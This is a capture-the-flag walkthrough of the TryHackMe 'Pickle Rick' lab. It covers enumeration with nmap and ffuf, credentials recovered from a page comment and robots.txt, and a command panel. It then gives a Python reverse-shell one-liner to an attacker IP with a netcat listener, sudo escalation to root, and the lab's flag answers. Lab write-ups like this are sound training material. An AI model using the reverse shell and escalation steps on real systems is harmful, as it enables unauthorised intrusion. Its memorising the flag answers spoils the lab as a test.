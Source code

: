 # Pickle Rick

![cover](https://github.com/Git-K3rnel/TryHackMe_Challenge/assets/127470407/76218595-8583-4014-957c-57ce94f50d5a)

## Enumeration
We begin by enumerating the machine with nmap :
```bash
nmap -sT -sV 10.10.68.55
```
![nmap](https://github.com/Git-K3rnel/TryHackMe_Challenge/assets/127470407/9ebffd57-d5ba-4c2c-9fcd-c0164217be27)

we notice only port `22` and `80` is open on the box so we explore the website and view the page source.

there is a comment on the page :
```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
so we find a username here and take note of it, next we visit the `robots.txt` file of the website.

there is a string here and we take note of it too :
```
Wubbalubbadubdub
```
then we begin fuzzing the website :
```
ffuf -w ~/wordlist/raft-medium-files.txt -u http://10.10.68.55/FUZZ
```
![ffuf](https://github.com/Git-K3rnel/TryHackMe_Challenge/assets/127470407/79ef34bb-68f2-4a96-91f4-c037b0bb9e30)


as the result shows, there is a login page (login.php) which we browse to this path :

![portal](https://github.com/Git-K3rnel/TryHackMe_Challenge/assets/127470407/e0de3357-0564-4794-ae18-4bd9ab6f3412)

we can use the previously found credentials here :
```
username : R1ckRul3s
password : Wubbalubbadubdub
```
the command panel page opens :

![panel](https://github.com/Git-K3rnel/TryHackMe_Challenge/assets/127470407/176df318-15bf-4c2b-a4cd-007110f2ce83)

here we can execute some bash commands like `ls` but afew commands such as `cat` are restricted.

## Gaining Shell

I tried a python3 reverse shell here and got the shell

on kali linux : 

```bash
nc -lvnp 4444
```

python3 reverse shell :

```python
export RHOST="10.18.57.234";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

we immediately can find the first ingredient :

![shell](https://github.com/Git-K3rnel/TryHackMe_Challenge/assets/127470407/3221224f-c8a4-417f-86d4-74f7c5299448)

then we navigate to `/home/rick` and the second ingredient is here :
```bash
$ cat 'second ingredients'
$ 1 jerry tear
```

## Privilege Escalation

By examining the SUDO permissions `sudo -l`, we see that we can run any commands as sudo :)
```bash
Matching Defaults entries for www-data on
    ip-10-10-68-55.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-68-55.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
we just run `sudo bash` and boom :)

![sudo](https://github.com/Git-K3rnel/TryHackMe_Challenge/assets/127470407/4272b2cb-4cfd-471a-ae37-2a056d01e97e)

navigate to `/root`, and here is the `3rd.txt` :
```text
3rd ingredients: fleeb juice
```

This is how you find all the ingredients to turn Rick back to his original form :)
